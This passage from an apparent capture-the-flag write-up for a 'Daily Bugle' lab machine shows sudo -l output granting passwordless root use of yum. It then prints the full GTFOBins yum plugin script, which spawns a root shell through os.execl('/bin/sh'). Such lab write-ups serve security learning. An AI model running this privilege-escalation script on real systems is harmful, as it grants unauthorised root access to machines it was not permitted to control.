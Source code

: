 ```text
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

We see that our user jjameson can run yum as root by using sudo with no password required. There's a well known and widely documented exploit for yum, even if you didn't know about it a quick Google would take you straight to it:

![bugle-googleyum](/assets/images/2021-02-23-22-07-17.png)

GTFOBins is a fantastic resource for Unix binaries that can be exploited. For us we have a working example [here](https://gtfobins.github.io/gtfobins/yum/) on how to use one with Yum.

Simply copy the commands given in to a new file and save, mine looks like this:

```text
jjameson@dailybugle ~]$ cat yum.sh
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
